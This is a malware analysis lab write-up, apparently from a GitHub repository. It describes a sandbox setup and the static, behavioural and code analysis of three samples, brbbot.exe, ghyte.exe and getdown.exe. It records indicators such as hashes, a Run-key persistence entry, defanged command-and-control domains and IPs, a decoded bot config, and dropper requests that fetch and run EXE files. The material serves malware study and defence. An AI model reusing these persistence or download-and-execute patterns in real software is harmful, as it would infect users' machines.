## Setup labs
- ISO Windows (https://massgrave.dev/genuine-installation-media)
- ISO Linux (Ubuntu, Kali,..)

Windows gateways point to the Linux machine, DNS server is same.



## Tools

### Static Analysis Tools
- CFF Explorer (https://ntcore.com/explorer-suite/)
- PE Studio (https://pestudio.org/)
- DIE - Detect It Easy (https://github.com/horsicq/Detect-It-Easy)
- strings

### Behaivioral Analysis Tools
Windows Tools:
- ProcMon (https://learn.microsoft.com/en-us/sysinternals/downloads/procmon)
- Process Hacker (https://sourceforge.net/projects/processhacker/)
- HttpDebugger (https://www.httpdebugger.com/)
- regshot (https://github.com/Regshot)
- procdot (https://procdot.com/)
- cyberchef (https://cyberchef.org/)

Linux Tools:
- fakedns
- httpd (or other http-server)
- inetsim(https://www.inetsim.org/)

Common
- Wireshark (https://www.wireshark.org/download.html)


### Code Analysis Tools
Windows Tools:
- x64dbg (https://github.com/x64dbg/x64dbg)
- API Monitor (http://www.rohitab.com/apimonitor)


Common
- IDA Freeware (https://hex-rays.com/ida-free)
- run_speakeasy (https://github.com/mandiant/speakeasy)
- capa (https://github.com/mandiant/capa)

## Sample 1 Analysis (brbbot.exe)
### Static Analysis

Filetype: PE64

SHA-1: 9C2AF9FA2F445535EFB187A98709EC865947E46C

Strings
- ascii,63,0x0000E770,-,user-agent,-,Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0)
- ascii,45,0x0000E6AE,-,registry,-,Software\Microsoft\Windows\CurrentVersion\Run
- ascii,17,0x0000E672,-,format-string,-,%s?i=%s&c=%s&p=%s

IAT
- 52 (gethostbyvalue),n/a,n/a,network,implicit,x,x,ws2_32.dll
- 116 (WSACleanup),n/a,n/a,network,implicit,x,x,ws2_32.dll
- 115 (WSAStartup),n/a,n/a,network,implicit,x,x,ws2_32.dll
- 12 (inet_ntoa),n/a,n/a,network,implicit,x,x,ws2_32.dll
- 57 (gethostvalue),n/a,n/a,network,implicit,x,x,ws2_32.dll
- InternetReadFile,0x9F,0x11174,network,implicit,-,x,wininet.dll
- CryptEncrypt,0xBA,0x110E0,cryptography,implicit,-,x,advapi32.dll
- CryptDecrypt,0xB4,0x11114,cryptography,implicit,-,x,advapi32.dll

### Behaivioral Analysis
Start list behaivior tools in the section Tools. In the Windows VM:
- ProcMon with filter `ProcessName` is `brbbot.exe`.
- Start ProcessHacker, HttpDebugger
- Snapshot 1st register with regshot.

In the Linux VM:
- Start dnsfake, httpd.
- Start Wireshark with the filter `ip.src=="address vm windows"`.

Let's check result:
- regshot value added: `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\brbbot: "C:\Users\REM\AppData\Roaming\brbbot.exe"`
- Save ProcMon and open with ProcDot:



Process brbbot.exe move this self to <AppData\Roaming> path, create key autorun for new path.
- fakedns receives a request for `brb.3dtuts.by`: fakedns[INFO]: Response: brb.3dtuts.by -> 192.168.92.129
- Wireshark rev 2 packet, first is dns request for `brb.3dtuts.by`, second is request http to this url.



Packet sumary:
`117	137.110672320	192.168.92.128	192.168.92.129	HTTP	1938	GET /ads.php?i=192.168.92.128&c=DESKTOP-2C3IQHO&p=<hex_encoded> HTTP/1.1 `

- HttpDebugger:



### Code Analysis
- run_speakeasy.py

`$ run_speakeasy.py -t brbbot.exe -o speakeasy.json 2>speakeasy.txt`

`$ cat speakeasy.txt`



After check log speakeasy, see it broken in CryptDestroyHash, pick this type list API in API Monitor tool and run again.



- API Monitor: 



`brbconfig.tmp` after decoded:

`uri=ads.php;exec=cexe;file=elif;conf=fnoc;exit=tixe;encode=5b;sleep=30000`

- cyberchef: decode data in requests http with key `encode=5b`



## Sample 2 Analysis (ghyte.exe)
- SHA-1: 76B843F5789E19508680FB64FE287FCD242A7286

- Regshot file add: `C:\Users\REM\AppData\Local\Temp\ghyte.exe`

- Process Monitor + ProcDot:
ghyte.exe move file to <AppData\Local\Temp> and remove original file, then start new process.



Bolt processes try connect to port 443 on Linux machine.


- fakedns: `fakedns[INFO]: Response: talonstamed[.]com -> 192.168.77.129`

- ghyte.exe connect to 443, we use inetsim to fake a service.

- config inetsim in `/etc/inetsim/inetsim/inetsim.conf` and log in `/var/log/inetsim` 

```
remnux@remnux:~/malware/day1/getdown$ inetsim 
INetSim 1.3.2 (2020-05-19) by Matthias Eckert & Thomas Hungenberg
Using log directory:      /var/log/inetsim/
Using data directory:     /var/lib/inetsim/
Using report directory:   /var/log/inetsim/report/
Using configuration file: /etc/inetsim/inetsim.conf
Parsing configuration file.
Configuration file parsed successfully.
=== INetSim main process started (PID 2103) ===
Session ID:     2103
Listening on:   192.168.77.129
Real Date/Time: 2026-10-11 14:01:36
Fake Date/Time: 2026-10-11 14:01:36 (Delta: 0 seconds)
 Forking services...
  * pop3s_995_tcp - started (PID 2112)
  * http_80_tcp - started (PID 2107)
  * ftps_990_tcp - started (PID 2114)
  * ftp_21_tcp - started (PID 2113)
  * pop3_110_tcp - started (PID 2111)
  * smtp_25_tcp - started (PID 2109)
  * https_443_tcp - started (PID 2108)
  * smtps_465_tcp - started (PID 2110)
 done.
Simulation running.
```

Run program again, see a process inetsim msgbox run. HttpDebugger packet:


`ghyte.exe` is a dopper, connect to `talonstamed[.]com`, `GET /images/1m6r.exe HTTP/1.1` to download a EXE file and start it.

## Sample 3 Ananlysis (getdown.exe)
Some type malware don't connect to a domain, it uses direct ip to communication.

- SHA-1: 414300597938D64B3486BE6004003D90D565360D

- Wireshark have a connect to ip 1[.]234[.]27[.]146.



- ProcMon and ProcDot: `getdown.exe` connect to this ip, create a file to <AppData\Local\Temp> filename is BrB2AC5.tmp, check file but it is empty.

- Config Linux to redirect packet from Windows to self, with `ens33` is card inet, check it with `ipconfig`

```bash
iptables -t nat -A PREROUTING -i ens33 -j REDIRECT        # open
iptables -t nat -D PREROUTING -i ens33 -j REDIRECT        # close
```

- After redirect, have a request GET to download a file exe and execute it: `GET /pcfix.exe?affid=23456732-34459 HTTP/1.1`


